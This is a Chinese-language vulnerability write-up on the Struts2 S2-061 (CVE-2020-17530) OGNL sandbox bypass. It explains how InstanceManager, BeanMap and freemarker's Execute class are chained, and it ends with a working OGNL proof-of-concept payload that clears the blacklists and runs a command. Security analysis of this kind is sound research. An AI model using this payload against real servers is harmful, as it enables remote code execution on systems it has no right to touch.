 - [CVE-2020-17530(s2-061) Struts2 远程代码执行](#cve-2020-17530s2-061-struts2-远程代码执行)
  - [原理分析](#原理分析)
    - [之前的补丁](#之前的补丁)
    - [InstanceManager](#instancemanager)
    - [BeanMap](#beanmap)
    - [Bypass](#bypass)
# CVE-2020-17530(s2-061) Struts2 远程代码执行
## 原理分析
### 之前的补丁
对s2-059的沙盒Bypass,主要是对5.16之后沙盒进行了绕过,在5.16中黑名单中又增加了1`com.opensymphony.xwork2.ognl`.  
![](2022-05-12-18-42-13.png)  
而之前通过attr的ValueStack来获取context的方法就位于`com.opensymphony.xwork2.ognl`包中,导致无法再通过`ValueStack.getContext()`获取到context.  
### InstanceManager
在context map的application map中存有一个`org.apache.tomcat.InstanceManager`对象,其实现类为`DefaultInstanceManager`,而该类存在于tomcat中间件的环境中.
![](2022-05-13-17-18-59.png)  
在`DefaultInstanceManager`中存在一个`newInstance`方法,可以根据类名返回实例对象.  
![](2022-05-13-17-37-18.png)  
现在便可以创建一个有Public无参构造函数的类了,但我们需要找一个可以得到contextm map的方法.
### BeanMap
BeanMap类是存在于Apache Commons Collections依赖包中的一个类,其构造函数为public无参构造函数,且其中会调用initialise方法,可以根据传入的对象来生成该类的BeanInfo.  
![](2022-05-13-17-52-25.png) 
![](2022-05-13-17-51-38.png)  
在其中将该对象类的读写(getter/setter)方法都分别放入了一个HashMap中.  
在BeanMap类的get方法中则会调用该对象类的get方法.  
![](2022-05-13-17-55-36.png)  
### Bypass
在之前的补丁中因为`com.opensymphony.xwork2.ognl`包被加入了黑名单,无法执行`getContext`方法,但我们可以通过`InstanceManager`创建一个`BeanMap`,再将`ValueStack`放入BeanMap中,则可以通过其BeanMap的get方法来间接执行`ValueStack#getContext()`方法,则可以再次得到context map.  
同样的的通过OgnlContxt的`getMemberAccess()`来得到`SecurityMemberAccess`.    
![](2022-05-13-18-05-57.png)  
然后再利用`BeanMap`的put方法(其会调用对应额set方法)来调用其`setExcludedPackageNames`和`setExcludedClasses`重置黑名单即可.   
![](2022-05-13-18-36-27.png)  
最后再利用newInstance创建一个`freemarker.template.utility#Execute`类,其存在无参构造函数,且其exec方法中可以直接执行命令.
![](2022-05-13-18-34-00.png)  
poc:  
`%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("calc.exe")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}`  
![](2022-05-13-18-35-14.png)
